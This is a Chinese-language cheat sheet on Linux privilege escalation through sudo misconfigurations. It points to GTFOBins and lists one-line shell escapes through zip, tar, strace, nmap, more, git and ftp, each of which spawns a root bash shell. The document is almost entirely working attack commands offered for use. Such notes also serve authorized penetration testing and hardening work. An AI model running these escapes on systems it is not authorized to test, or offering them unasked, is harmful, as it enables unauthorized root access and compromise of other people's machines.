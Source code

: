 **相关文章**
- [linux 符号链接攻击防御简介](https://blog.csdn.net/whatday/article/details/102852129)

#### sudo

```bash
sudo -l # 查看当前用户执行哪些 sudo 命令无需密码
```

下面只记录部分,更多内容访问 [GTFOBins](https://gtfobins.github.io/)

- zip
    ```bash
    sudo zip /tmp/tmp.zip /tmp/ -T --unzip-command="sh -c /bin/bash"

    -T 表示测试 test.zip 的完整性
    -unzip-command 与 -T 一起使用，可以指定自定义命令用于解压 test.zip
    ```

- tar
    ```bash
    sudo tar cf /dev/null test --checkpoint=1 --checkpoint-action=exec=/bin/bash

    -checkpoint-action 选项是提权点,可以自定义需要执行的动作
    ```

- strace
    ```bash
    sudo strace -o /dev/null /bin/bash
    ```

- nmap

    低版本的 nmap3.x 有 interactive 模式，且设置了 suid，这个时候可以进入交互模式 执行 !sh 命令即可轻松完成提权。
    ```bash
    echo "os.execute('/bin/bash')" > /tmp/shell.nse
    sudo nmap --script=/tmp/shell.nse
    ```

- more
    ```bash
    sudo more /etc/hosts
    !/bin/bash
    ```

- git
    ```bash
    sudo git help status
    !/bin/bash
    ```

- ftp
    ```bash
    sudo ftp
    ftp> !/bin/bash
    ```
